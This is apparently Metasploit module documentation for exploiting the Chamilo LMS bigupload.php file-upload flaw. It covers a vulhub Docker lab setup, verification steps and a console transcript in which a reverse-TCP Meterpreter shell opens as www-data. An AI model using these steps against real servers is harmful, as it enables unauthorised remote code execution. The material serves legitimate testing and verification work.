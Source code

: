 ## Vulnerable Application
Chamilo LMS is a free software e-learning and content management system. In versions prior to <= v1.11.24
a webshell can be uploaded via the bigload.php endpoint. If the GET request parameter `action` is set to
`post-unsupported` file extension checks are skipped allowing for attacker controlled .php files to be uploaded to:
`/main/inc/lib/javascript/bigupload/files/` if the `/files/` directory already exists - it does not exist
by default.

### Setup

A vulnerable docker-compose configuration can be found at the following link: https://github.com/vulhub/vulhub/pull/559
1. Clone the repo `git clone https://github.com/vulhub/vulhub.git`
1. Checkout the pull request mentioned above: `git checkout CVE-2023-4220`
1. Run `cd vulhub/chamilo/CVE-2023-4220`
1. Start the environment: `docker compose up`
1. Navigate to `http://127.0.0.1:8080` to complete the installation wizard.
1. Note when filling out the database IP address and credentials - the DB hostname is the name of the container which is
   `mariadb` (not `localhost` or `127.0.0.1`).
1. Once the installation wizard is complete the target should be ready to be
   exploited with the module. This container has the non-default `/files/` directory created already.

## Verification Steps

1. Start msfconsole
1. Do: `use linux/http/chamilo_bigupload_webshell`
1. Set the `RHOST`, `RPORT`, and `LHSOT` options
1. Run the module
1. Receive a Meterpreter session as the `www-data` user.

## Scenarios
### Chamilo 1.11.18 running in Docker
```
msf6 > use linux/http/chamilo_bigupload_webshell
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(linux/http/chamilo_bigupload_webshell) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf6 exploit(linux/http/chamilo_bigupload_webshell) > set rport 8080
rport => 8080
msf6 exploit(linux/http/chamilo_bigupload_webshell) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(linux/http/chamilo_bigupload_webshell) > show options

Module options (exploit/linux/http/chamilo_bigupload_webshell):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   127.0.0.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    8080             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.16.199.1     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/chamilo_bigupload_webshell) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The directory /main/inc/lib/javascript/bigupload/files/ exists on the target indicating the target is vulnerable.
[+] The target is vulnerable. File upload was successful (CVE-2024-4220 was exploited successfully).
[*] Sending stage (40004 bytes) to 172.16.199.1
[+] Deleted 1nZaWHvP
[+] Deleted kFAqQcbWxs.php
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.1:60031) at 2024-11-11 10:42:06 -0800

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : c2064983b0e1
OS          : Linux c2064983b0e1 6.10.11-linuxkit #1 SMP PREEMPT_DYNAMIC Thu Oct  3 10:19:48 UTC 2024 x86_64
Meterpreter : php/linux
meterpreter >
```
